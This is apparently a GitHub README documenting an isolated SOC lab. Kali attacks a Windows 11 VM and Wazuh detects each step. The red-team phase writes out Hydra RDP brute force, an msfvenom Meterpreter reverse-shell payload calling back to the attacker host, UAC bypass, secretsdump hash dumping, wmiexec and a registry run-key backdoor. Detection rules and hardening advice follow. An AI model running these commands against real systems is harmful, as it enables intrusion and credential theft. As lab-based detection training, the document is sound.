

<div align="center">

# 🛡️ End-to-End SOC Automation & Threat Detection Lab


<br/>

[](https://wazuh.com)
[](https://www.pfsense.org)
[](https://www.kali.org)
[](https://www.microsoft.com)
[](https://attack.mitre.org)

> **A full-lifecycle, hands-on Security Operations Center lab** covering infrastructure deployment, adversary simulation (Red Team), and detection & response (Blue Team) — built entirely on virtualized infrastructure with enterprise-grade tooling.

</div>

---

## 📋 Table of Contents

1. [Project Overview](#-project-overview)
2. [Lab Architecture](#-lab-architecture)
3. [Phase 1 — Virtual Infrastructure & Networking](#%EF%B8%8F-phase-1--virtual-infrastructure--networking)
4. [Phase 2 — Gateway & Endpoint Deployment](#-phase-2--gateway--endpoint-deployment)
5. [Phase 3 — Attack Simulation (Red Team)](#%EF%B8%8F-phase-3--attack-simulation-red-team)
6. [Attack vs Detection Mapping](#-attack-vs-detection-mapping)
7. [Phase 4 — Detection & Analysis (Blue Team)](#-phase-4--detection--analysis-blue-team)
8. [Detection Engineering](#-detection-engineering)
9. [Incident Summary](#-incident-summary)
10. [Key Skills & Tools](#-key-skills--tools)
11. [Key Takeaways](#-key-takeaways)

---

## 🔍 Project Overview

This project demonstrates the **complete lifecycle of a modern Security Operations Center (SOC)** — from building the isolated lab environment to executing multi-stage adversarial attacks and detecting every step with a production-grade SIEM/XDR stack.

The lab simulates a realistic enterprise network where:
- 🔴 **Red Team** (Kali Linux) performs recon, exploitation, privilege escalation, persistence, and credential harvesting
- 🔵 **Blue Team** (Wazuh SIEM + pfSense) detects, alerts, and maps every malicious action to the MITRE ATT&CK framework

**Core Technologies:**

| Category | Tool | Purpose |
|:---------|:-----|:--------|
| SIEM / XDR | **Wazuh** | Log aggregation, alerting, threat hunting |
| Firewall / Gateway | **pfSense** | Network segmentation, traffic control |
| Endpoint Telemetry | **Sysmon** | Granular Windows process/registry/network logging |
| Adversary Simulation | **Metasploit / Impacket / Hydra** | Exploitation & post-exploitation |
| Target | **Windows 11** | Victim endpoint |
| Attack Platform | **Kali Linux** | Red team operations |

---

## 🏗️ Lab Architecture

The entire lab runs on an **isolated Virtual LAN (VMnet2)** to simulate an enterprise environment safely. pfSense acts as the core gateway bridging NAT (internet) to the internal segment.

```
┌─────────────────────────────────────────────────────────────┐
│                      VMnet2 (Isolated LAN)                  │
│                                                             │
│   ┌──────────────┐     ┌──────────────┐    ┌────────────┐  │
│   │  Wazuh SIEM  │     │  Windows 11  │    │ Kali Linux │  │
│   │  (Ubuntu)    │◄────│  (Target)    │◄───│ (Attacker) │  │
│   │  3 GB RAM    │     │  2 GB RAM    │    │ 1.5 GB RAM │  │
│   └──────────────┘     └──────────────┘    └────────────┘  │
│          ▲                    ▲                   │         │
│          └────────────────────┴───────────────────┘        │
│                               │                             │
│                     ┌─────────▼────────┐                   │
│                     │    pfSense FW    │                   │
│                     │ WAN (NAT) ◄──────┼──► Internet       │
│                     │ LAN (VMnet2)     │                   │
│                     │ 512 MB RAM       │                   │
│                     └──────────────────┘                   │
└─────────────────────────────────────────────────────────────┘
```


---

## ⚙️ Phase 1 — Virtual Infrastructure & Networking

### Resource Allocation

| Component | OS | Role | RAM | Disk |
|:----------|:---|:-----|:----|:-----|
| **Wazuh Manager** | Ubuntu 22.04 | SIEM / XDR | 3 GB | 50 GB |
| **pfSense** | FreeBSD | Firewall / Gateway | 512 MB | 20 GB |
| **Windows 11** | Windows 11 | Target Endpoint | 2 GB | 60 GB |
| **Kali Linux** | Debian | Adversary | 1.5 GB | 40 GB |

### VM Configuration Screenshots

**Wazuh Manager Settings:**


**Kali Linux Settings:**


**pfSense Settings:**


**Windows 11 Settings:**


> 💡 **Network Design:** pfSense is configured with **two network adapters** — one on NAT (for internet access) and one on VMnet2 (internal LAN). This mirrors enterprise network design where the firewall bridges internal and external segments.

---

## 🌐 Phase 2 — Gateway & Endpoint Deployment

### 2.1 pfSense Firewall Setup

pfSense serves as the core **router and firewall** for the lab. It was installed with WAN (NAT) and LAN (VMnet2) interfaces configured for network isolation and controlled traffic flow.

#### Installation & Partitioning

<table>
<tr>
<td><br/><sub>Disk partitioning during install</sub></td>
<td><br/><sub>Partition editor configuration</sub></td>
</tr>
<tr>
<td><br/><sub>Partition scheme selection</sub></td>
<td><br/><sub>Completed partition layout</sub></td>
</tr>
</table>

#### Network Interface Configuration

After installation, WAN and LAN interfaces were assigned and verified:


#### pfSense Web Dashboard


#### Firewall Rule Adjustment

For lab purposes, the pfSense default block rule was temporarily disabled to allow the Wazuh agent traffic and permit attack simulation:


---

### 2.2 Windows 11 Target — Deployment & Hardening

#### Installation

Windows 11 was deployed by **bypassing TPM and RAM requirements** using a registry workaround during setup — a common technique for lab environments.

<table>
<tr>
<td><br/><sub>Bypassing TPM/RAM checks</sub></td>
<td><br/><sub>Installation in progress</sub></td>
</tr>
<tr>
<td><br/><sub>Post-install provisioning</sub></td>
<td><br/><sub>Internet connectivity verified</sub></td>
</tr>
</table>

#### Network Connectivity Test

Successful ping to pfSense gateway confirmed proper LAN connectivity:


#### Windows Firewall — Disabled for Lab


---

### 2.3 Telemetry Stack — Sysmon + Wazuh Agent

To gain full visibility into endpoint activity, two monitoring components were deployed on Windows 11.

#### Sysmon Installation

**Sysmon** (System Monitor) was installed with a custom configuration to capture:
- Process creation (Event ID 1)
- Network connections (Event ID 3)
- Registry modifications (Event ID 13)
- File creation events (Event ID 11)


#### Wazuh Agent — Deployment & Configuration

The **Wazuh Agent** was installed and configured to forward all Windows Event Logs and Sysmon events to the Wazuh Manager (SIEM).


#### Wazuh Manager — Agent Connected


#### Sysmon Config Finalized in Wazuh


---

### 2.4 Wazuh SIEM — Dashboard & Status


---

## ⚔️ Phase 3 — Attack Simulation (Red Team)

> The attack follows the **Cyber Kill Chain** model:
> `Reconnaissance → Weaponization → Initial Access → Privilege Escalation → Persistence → Credential Access`

All techniques are mapped to **MITRE ATT&CK** throughout.

---

### 3.1 Reconnaissance — Network & Service Discovery

#### Nmap — Host Discovery

Initial scan to identify live hosts and open services on the target subnet:


#### Nmap — Full Port Scan

Comprehensive scan revealing critical open ports:
- **Port 3389** — RDP (Remote Desktop Protocol) → target for brute force
- **Port 445** — SMB → target for lateral movement


> **MITRE:** [T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)

---

### 3.2 Weaponization & Initial Access

#### Brute-Force RDP with Hydra

**Hydra** was used to brute-force RDP credentials against the Windows 11 target using a common wordlist:

```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://[TARGET_IP]
```


> **MITRE:** [T1110 — Brute Force](https://attack.mitre.org/techniques/T1110/)

#### Payload Generation with msfvenom

A **reverse shell payload** was crafted using msfvenom for Windows execution:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[KALI_IP] LPORT=4444 -f exe -o payload.exe
```


#### Payload Delivery via Python Web Server

The payload was hosted on a simple HTTP server for victim-side download:

```bash
python3 -m http.server 8080
```


> **MITRE:** [T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)

---

### 3.3 Exploitation — Meterpreter Session

A **Metasploit multi/handler** was configured to catch the reverse shell. Once the victim executed the payload, a Meterpreter session was established:




> **MITRE:** [T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)

---

### 3.4 Privilege Escalation — UAC Bypass & SYSTEM

From a standard user context, **UAC was bypassed** and `getsystem` was executed to escalate to **NT AUTHORITY\SYSTEM**:

```
meterpreter > use exploit/windows/local/bypassuac
meterpreter > getsystem
```

<table>
<tr>
<td><br/><sub>UAC bypass executed</sub></td>
<td><br/><sub>SYSTEM-level access achieved</sub></td>
</tr>
</table>

> **MITRE:** [T1548.002 — Abuse Elevation Control Mechanism: Bypass User Account Control](https://attack.mitre.org/techniques/T1548/002/)

---

### 3.5 Credential Harvesting — SAM Database Dump

#### Impacket Secretsdump (T1003.002)

Using **Impacket's `secretsdump`**, all local NTLM hashes were extracted remotely from the SAM (Security Account Manager) database:

```bash
impacket-secretsdump administrator:[PASSWORD]@[TARGET_IP]
```


> **MITRE:** [T1003.002 — OS Credential Dumping: Security Account Manager](https://attack.mitre.org/techniques/T1003/002/)

---

### 3.6 Remote Execution — WMIExec & NetExec

#### Impacket WMIExec

Remote command execution using WMI with harvested credentials:

```bash
impacket-wmiexec administrator@[TARGET_IP]
```


#### NetExec (NXC) — Command Execution

**NetExec** was used for additional remote command execution and network enumeration:


> **MITRE:** [T1047 — Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047/)

---

### 3.7 Persistence — Registry Run Key & Process Migration

#### Process Migration + Registry Persistence

The Meterpreter session was migrated to `explorer.exe` (a trusted, long-running process) and a **registry run key** was created for persistence:

```
meterpreter > migrate -N explorer.exe
meterpreter > reg setval -k HKCU\Software\Microsoft\Windows\CurrentVersion\Run -v Updater -d 'C:\payload.exe'
```


> **MITRE:** [T1547.001 — Boot or Logon Autostart Execution: Registry Run Keys](https://attack.mitre.org/techniques/T1547/001/)

#### Backdoor Account Creation

A hidden local administrator account was created for persistent access:


> **MITRE:** [T1136.001 — Create Account: Local Account](https://attack.mitre.org/techniques/T1136/001/)

---

### 3.8 Lateral Movement — RDP with Backdoor Account

Using the newly created backdoor account, **xfreerdp** was used to establish a full GUI RDP session to the target:


> **MITRE:** [T1021.001 — Remote Services: Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001/)

---

## 📊 Attack vs Detection Mapping

| # | Attack Step | Tool Used | Detection Source | Wazuh Alert | MITRE ID |
|:--|:------------|:----------|:----------------|:------------|:---------|
| 1 | **Reconnaissance** | Nmap | pfSense firewall logs | Port scan detected | [T1046](https://attack.mitre.org/techniques/T1046/) |
| 2 | **Brute Force** | Hydra | Windows Event ID 4625 | Multiple logon failures | [T1110](https://attack.mitre.org/techniques/T1110/) |
| 3 | **Initial Access** | RDP | Windows Event ID 4624 | Successful login from attacker IP | [T1078](https://attack.mitre.org/techniques/T1078/) |
| 4 | **Privilege Escalation** | Meterpreter / getsystem | Sysmon Event ID 1 | Suspicious process creation | [T1548](https://attack.mitre.org/techniques/T1548/) |
| 5 | **Credential Access** | Secretsdump | Wazuh + NTLM logs | SAM access / NTLM hash exposure | [T1003.002](https://attack.mitre.org/techniques/T1003/002/) |
| 6 | **Persistence** | Registry Run Key | Sysmon Event ID 13 | Autorun registry modification | [T1547.001](https://attack.mitre.org/techniques/T1547/001/) |
| 7 | **Lateral Movement** | WMIExec / NetExec | Windows Event ID 4688 | Remote command execution | [T1047](https://attack.mitre.org/techniques/T1047/) |
| 8 | **Persistence (Account)** | net user | Windows Event ID 4720 | New local account created | [T1136.001](https://attack.mitre.org/techniques/T1136/001/) |

---

## 🛡️ Phase 4 — Detection & Analysis (Blue Team)

Wazuh SIEM provided **full visibility** into each stage of the attack through correlated log data from multiple sources: Windows Security Logs, Sysmon, and pfSense.

---

### 4.1 Wazuh Overview Dashboard


---

### 4.2 Alerts Dashboard — Attack Footprint


---

### 4.3 Brute Force Detection — Logon Failures

Wazuh triggered high-severity alerts based on **Event ID 4625** (failed logon) patterns, identifying the Hydra brute-force attack in real time:


---

### 4.4 Attacker Attribution — Source IP Identification

Wazuh correlated multiple alerts back to the **Kali Linux IP address**, enabling quick attacker attribution:


---

### 4.5 Registry Persistence Detection

When the Meterpreter session wrote to `HKCU\...\Run`, **Sysmon Event ID 13** triggered a high-severity Wazuh alert for the autorun registry modification:


---

### 4.6 Event Log Analysis — Process & Execution Forensics

Deep-dive event analysis in Wazuh revealing attacker process chains, parent-child relationships, and command-line arguments:


---

### 4.7 NTLM Hash Exposure in RDP Logs

Wazuh detected and logged **NTLM authentication hashes** from RDP logon events — a critical finding that would indicate potential Pass-the-Hash attack surface:


---

### 4.8 Custom Detection Rule — Rule Description


---

### 4.9 Threat Hunting — MITRE ATT&CK Mapping

The **Wazuh Threat Hunting Dashboard** mapped all detected activities to MITRE ATT&CK tactics and techniques, providing a structured view of the full attack chain:


---

## 🔧 Detection Engineering

### Rule 1 — RDP Brute Force Detection

```xml
<rule id="100001" level="10">
  <if_sid>4625</if_sid>
  <frequency>5</frequency>
  <timeframe>60</timeframe>
  <description>Possible RDP brute force attack — 5+ failed logons in 60 seconds</description>
  <mitre>
    <id>T1110</id>
  </mitre>
</rule>
```

| Field | Value |
|:------|:------|
| **Data Source** | Windows Security Logs |
| **Event ID** | 4625 (Failed Logon) |
| **Logic** | 5+ failures from same IP within 60 seconds |
| **Severity** | Level 10 (High) |
| **MITRE** | T1110 — Brute Force |

---

### Rule 2 — Registry Autorun Persistence Detection

```xml
<rule id="100002" level="12">
  <if_sid>60010</if_sid>
  <field name="win.eventdata.targetObject">HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run</field>
  <description>Possible persistence via registry run key modification</description>
  <mitre>
    <id>T1547.001</id>
  </mitre>
</rule>
```

| Field | Value |
|:------|:------|
| **Data Source** | Sysmon Event ID 13 |
| **Logic** | Registry write to autorun locations |
| **Target Path** | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` |
| **Severity** | Level 12 (Critical) |
| **MITRE** | T1547.001 — Registry Run Keys |

---

### Rule 3 — New Local Account Creation

```xml
<rule id="100003" level="10">
  <if_sid>4720</if_sid>
  <description>New local user account created — possible backdoor account</description>
  <mitre>
    <id>T1136.001</id>
  </mitre>
</rule>
```

| Field | Value |
|:------|:------|
| **Data Source** | Windows Security Logs |
| **Event ID** | 4720 (User Account Created) |
| **MITRE** | T1136.001 — Create Local Account |

---

## 🚨 Incident Summary

### Attack Timeline

```
[Recon]       Nmap scan → open RDP (3389) and SMB (445) discovered
     │
     ▼
[Access]      Hydra brute-forces RDP credentials (Event ID 4625 x hundreds)
     │
     ▼
[Login]       Attacker logs in via RDP (Event ID 4624)
     │
     ▼
[Payload]     Msfvenom reverse shell delivered and executed
     │
     ▼
[Shell]       Meterpreter session established
     │
     ▼
[PrivEsc]     UAC bypassed → SYSTEM privileges gained (Sysmon EID 1)
     │
     ▼
[Creds]       Secretsdump extracts NTLM hashes from SAM
     │
     ▼
[Persist]     Registry run key created (Sysmon EID 13) + backdoor account
     │
     ▼
[LateralMov]  WMIExec / NetExec remote execution (Event ID 4688)
```

### Impact Assessment

| Area | Impact |
|:-----|:-------|
| **Confidentiality** | NTLM hashes exposed; potential credential reuse across systems |
| **Integrity** | Registry modified; backdoor user created with admin privileges |
| **Availability** | Persistent foothold established; system could be re-accessed at any time |

### Recommendations

| Priority | Recommendation |
|:---------|:--------------|
| 🔴 Critical | Enable **Account Lockout Policy** (e.g. lock after 5 failed attempts) |
| 🔴 Critical | **Restrict RDP access** — firewall rules to allow only from trusted IPs |
| 🟠 High | Enable **Network Level Authentication (NLA)** for RDP |
| 🟠 High | Deploy **MFA** for all remote access |
| 🟡 Medium | Monitor registry autorun keys with Sysmon + alerting |
| 🟡 Medium | Audit local administrator accounts regularly |
| 🟢 Low | Enable Windows Defender / EDR alongside Wazuh for prevention layer |

---

## 🧠 Key Skills & Tools

### Blue Team

| Category | Tool / Skill |
|:---------|:-------------|
| **SIEM / XDR** | Wazuh Manager, Wazuh Agent, FIM, Custom Rules |
| **Endpoint Telemetry** | Sysmon, Windows Event Viewer |
| **Forensics** | NTLM hash analysis, log correlation, process chain analysis |
| **Threat Intelligence** | MITRE ATT&CK framework mapping |
| **Networking** | pfSense, VLAN isolation, firewall rule analysis |

### Red Team

| Category | Tool / Skill |
|:---------|:-------------|
| **Recon** | Nmap (host & port discovery) |
| **Initial Access** | Hydra (brute force), MSFVenom (payload generation) |
| **Exploitation** | Metasploit Framework, Meterpreter |
| **Privilege Escalation** | UAC Bypass, `getsystem` |
| **Credential Access** | Impacket Secretsdump (SAM) |
| **Lateral Movement** | Impacket WMIExec, NetExec (NXC), xfreerdp |
| **Persistence** | Registry Run Keys, backdoor account creation |

---

## 📚 Key Takeaways

1. **Log correlation is essential** — no single log source tells the full story. Correlating Windows Security Logs, Sysmon, and firewall logs together exposed every step of the attack chain.

2. **Sysmon telemetry is invaluable** — without Sysmon, critical actions like process migration to `explorer.exe` and registry autorun key creation would have been invisible.

3. **Brute-force attacks are noisy and detectable** — hundreds of Event ID 4625 entries made the Hydra attack trivial to spot with even basic threshold-based alerting.

4. **NTLM over RDP is a credential risk** — NTLM authentication hashes captured from RDP sessions create a Pass-the-Hash attack surface that organizations often overlook.

5. **MITRE ATT&CK provides structure** — mapping every detected event to ATT&CK tactics and techniques transforms raw alerts into actionable threat intelligence.

6. **Defense in depth matters** — the combination of network-level visibility (pfSense), endpoint telemetry (Sysmon), and centralized detection (Wazuh) created overlapping detection layers that would be very difficult for an attacker to evade entirely.

---

<div align="center">

**Built with 🛡️ for learning, detection, and the art of the hunt.**

*All attacks were performed in an isolated lab environment. Never use these techniques against systems you do not own or have explicit written permission to test.*

</div>
